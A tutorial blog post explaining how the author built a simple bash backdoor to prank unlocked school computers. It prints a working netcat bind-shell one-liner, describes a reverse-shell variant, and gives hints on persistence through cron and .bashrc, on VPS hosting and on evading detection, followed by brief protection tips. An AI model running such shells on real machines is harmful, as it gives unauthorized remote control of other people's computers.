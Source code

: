 ```yaml
---
title: How I've created a backdoor?
author: Lucas Marandat
date: 2019-04-30T00:00:00.000Z
excerpt: By explaining how I've created a basic backdoor, you'll understand how
  they work and how to protect yourself.
hero: images/hero.png
preview: images/demo.gif
---
```

## 🚀 Introduction

### Disclaimer

Any actions and or activities related to the material contained within this repository are solely your responsibility. The misuse of the information on this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

### Definition

A backdoor is a typically covert method of bypassing normal authentication to usually remote access to a computer.

### Why!?

I’ve always been interested in how things work. In my IT school, each time someone leaves his computer, he should lock it. Why? Because an unlocked computer is the best way to be hacked. So, to make sure new students lock their computer, we usually “script” the unlocked computer to remind him next time to lock it.

(An “script” is usually a small bash code like alias ls=reboot to prank someone)

In many cases, we (teaching assistants) don’t always have time to write an efficient script (an alias is sometimes not enough). To solve this, I’ve 2 solutions :

1. Make a remote script that can be quickly “cloned” and launched.
2. Make a backdoor and script them remotely.

As you guess it, I’ve chosen the funniest one 🙃

## ⏰ Coding time!

To begin with, I've started by the quickest and the easiest way to create my backdoor. So let's write some `bash` code!

### Version 1 ([code here](https://github.com/lucasmrdt/how-i-created-a-backdoor/tree/master/basic-backdoor))

```shell
mkfifo FIFO
nc -l -p 8080 2> /dev/null < FIFO | bash > FIFO 2>&1
```

#### That's it! Let's go into the details :

![version 1 diagram](images/diagram-version-1.0.jpg "version 1 diagram")

Our backdoor is just a server that listens on port **8080** created by `nc -l -p 8080`. The server is hosted on the client-side (the target student in my case). This server takes a "bash command" (eg.  `echo "test"` ) as request and answers the output of this one (eg. `test` ).

1. We use [](https://en.wikipedia.org/wiki/Named_pipe)[unix pipeline](https://en.wikipedia.org/wiki/Pipeline_(Unix)) ("|") to redirect the "request payload" (the command sent by me) to the "bash" program.
2. We use [named pipe](https://en.wikipedia.org/wiki/Named_pipe)  ("FIFO") to redirect the output of "bash" program to the client response.

#### Limitations :

1. ✅ To use this backdoor we must use the same network as the victim. So you can't use this backdoor at your home. (that's not our goal)
2. 🚫 Many computers use firewalls to restrain requests of unknown computers. **Almost all IT students running Fedora 28 have this firewall enabled, so we're stuck to the same point...**

### Version 2 - How can we solve the "Limitation n°2"? ([code here](https://github.com/lucasmrdt/how-i-created-a-backdoor/tree/master/advanced-backdoor))

What if we exchange our roles? The firewall forbids our request (because we're not a known computer) but can it forbids the victim to request someone? Of course not, overwise you could never reach "google.fr" 👌🏻

To explain to you what I mean by "exchange our roles" let's look at this diagram below :

![version 2 diagram](images/diagram-version-2.0.jpg "version 2 diagram")

#### Step by step how this implementation works :

1. The victim tries to connect to the server launched by me.
2. When the connection is completed, me (as the server) send it the command to execute (eg.  `echo "test"` ).
3. The victim sends me back the response.
4. And so on...

#### Limitations?

No hard limitations, this schema is a basic client-server communication but instead of sending payload the client also executes some commands.

#### Demo:

![demo](images/demo.0.gif "demo")

#### Going deeper:

* What if your backdoor-server is not launched when the backdoor-client request it? Is your backdoor-client should stop? (Of course not...)
* Is your backdoor request an IP or instead use a DNS to be more flexible? ([maybe this could help you](https://www.freenom.com/fr/index.html))
* Can we host our backdoor-server on a VPS instead of our computer? ([here 😉](https://aws.amazon.com/fr/ec2/))
* How can we make our backdoor-client persisting during the time (eg. when victim reboots his computer)? ([here](https://fr.wikipedia.org/wiki/Cron) and [here too](https://unix.stackexchange.com/questions/129143/what-is-the-purpose-of-bashrc-and-how-does-it-work))
* How can the backdoor-client be almost undetectable? (name, programming language, ...)

## 😱 How can I protect myself?

* Lock your computer. 😇
* Be careful of what you download on the internet.
* Use efficient anti-virus.
* Implement a [Zero Trust Architecture](https://www.paloaltonetworks.com/cyberpedia/what-is-a-zero-trust-architecture)

## 📦 Source code [here](https://github.com/lucasmrdt/how-i-created-a-backdoor)